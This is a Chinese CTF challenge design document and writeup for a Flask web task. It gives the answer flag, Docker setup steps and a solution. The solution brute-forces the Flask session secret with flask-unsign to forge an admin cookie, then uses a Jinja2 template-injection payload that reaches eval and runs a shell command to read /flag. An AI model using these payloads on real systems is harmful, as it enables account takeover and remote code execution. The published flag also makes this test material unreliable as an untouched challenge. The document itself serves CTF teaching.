





# 永信至诚春秋Game CTF赛题设计说明
### [题目信息]：
出题人|出题时间|题目名字|题目类型|难度等级|题目分值
:-|:-|:-|:-|:-|:-
小路|2020315|Easy-Flask|web|中|\

### [题目描述]：
```
Easy-Flask
```

### [题目考点]：
```
1. flask session
2. flask ssti
```

### [Flag]:
`flag{caa17d46-aeed-49a5-9d5e-e10846e864a3}`


### [题目制作过程]：
1. 可修改源码docker/flag修改flag
2. 使用docker-compose.yml
```
docker-compose build
docker-compose up -d
```
访问`http://your-ip:8000`
出现👇即正常

### [题目writeup]：
1、使用flask-unsign爆破key并且伪造session
先查看session得到`eyJfcGVybWFuZW50Ijp0cnVlLCJ1c2VybmFtZSI6Imd1ZXN0In0.Xm3Qsg.HxT1GziP0ExJJuxwdp9pn88g58w`
源码注释中有flag位于/flag

`$ pip3 install flask-unsign`安装flask-unsign,需要使用自带的flask-unsign-wordlist
`$ pip3 install flask-unsign-wordlist`
`flask-unsign --unsign --cookie eyJfcGVybWFuZW50Ijp0cnVlLCJ1c2VybmFtZSI6Imd1ZXN0In0.Xm3Qsg.HxT1GziP0ExJJuxwdp9pn88g58w`

获得值为`{'_permanent': True, 'username': 'guest'}`
key为admin 伪造
```
λ flask-unsign --sign --cookie "{'_permanent': True, 'username': 'admin'}" --secret "admin"
eyJfcGVybWFuZW50Ijp0cnVlLCJ1c2VybmFtZSI6ImFkbWluIn0.Xm3TVA.I9VRH0trBm3lLTAIuI7t0hTWE2g
```
到达第二层

？username=admin存在模板注入，使用`username={{3*3}}`测试

使用通用payload即可
```


  
  
    
      {{ b['eval']('__import__("os").popen("cat /flag").read()') }}
    
  
  


```
username=复制上面的丢浏览器即可
```
http://192.168.59.132:8000/user?username={%%20for%20c%20in%20[].__class__.__base__.__subclasses__()%20%}%20{%%20if%20c.__name__%20==%20%27catch_warnings%27%20%}%20{%%20for%20b%20in%20c.__init__.__globals__.values()%20%}%20{%%20if%20b.__class__%20==%20{}.__class__%20%}%20{%%20if%20%27eval%27%20in%20b.keys()%20%}%20{{%20b[%27eval%27](%27__import__(%22os%22).popen(%22cat%20/flag%22).read()%27)%20}}%20}%20{%%20endif%20%}%20{%%20endif%20%}%20{%%20endfor%20%}%20{%%20endif%20%}%20{%%20endfor%20%}
```

